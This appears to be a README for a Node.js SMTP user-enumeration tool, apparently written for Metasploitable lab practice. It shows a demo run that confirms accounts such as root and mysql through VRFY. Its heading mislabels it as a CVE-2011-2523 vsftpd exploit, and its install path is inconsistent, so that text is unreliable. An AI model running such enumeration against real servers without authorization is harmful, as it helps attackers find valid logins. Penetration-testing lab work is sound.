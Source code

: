 # CVE-2011-2523 - vsftpd_2_3_4_exploit

This is a POC for enumerating users from a SMTP server using SMTP Commands

## Demo

PS D:\NodeJS\smtp-enum> node .\smtp-enum-vrfy.js
```
[*] Server: 192.168.31.129:25
[*] Mode: VRFY
[*] Verbose Output: false  
[*] File: usernames.txt    
[*] SMTP VRFY Check Started
--[+] User:bin exists
--[+] User:daemon exists
--[+] User:ftp exists  
--[+] User:games exists
--[+] User:lp exists  
--[+] User:mail exists
--[+] User:man exists  
--[+] User:mysql exists
--[+] User:news exists
--[+] User:nobody exists
--[+] User:postfix exists   
--[+] User:postgres exists  
--[+] User:postmaster exists
--[+] User:root exists
--[+] User:sshd exists
--[+] User:sync exists
--[+] User:user exists
--[+] User:uucp exists
[*] SMTP VRFY Check Complete
```

# Installation and usage

git clone https://github.com/ThePenClicker/MetasploitableSolutions.git

cd MetasploitableSolutions/smtp-enum-vrfy.js

node index.js
